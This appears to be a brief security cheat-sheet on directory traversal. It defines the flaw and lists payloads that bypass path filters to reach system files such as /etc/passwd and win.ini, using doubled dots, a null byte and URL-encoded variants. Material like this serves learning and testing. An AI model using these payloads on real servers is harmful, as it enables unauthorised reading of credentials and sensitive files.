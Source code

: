 ```yaml
---
description: Read random files that is running an application.
cover: https://www.plexal.com/wp-content/uploads/2023/05/MicrosoftTeams-image-171.png
coverY: 0
---
```


# Directory Traversal

#### Directory traversal (or path traversal) is a web security vulnerability that allows an attacker to read arbitrary files on the server that is running an application.&#x20;

#### This might include application code and data, credentials for back-end systems and sensitive operating system files.

## <mark style="color:red;">Bypass path traversal filters</mark>

```
..\..\..\windows\win.ini --> Windows OS
../../../etc/passwd
....//....//....//etc/passwd
/var/www/images/../../../etc/passwd 
../../../etc/passwd%00.png --> null byte bypass
```

### <mark style="color:yellow;">**URL Encoding**</mark>

| char | encode          |
| ---- | --------------- |
| ../  | %2e%2e%2f       |
| ../  | %252e%252e%252f |
| ../  | ..%252f         |
| ../  | ..%c0%af        |
| ../  | ..%ef%bc%8f     |
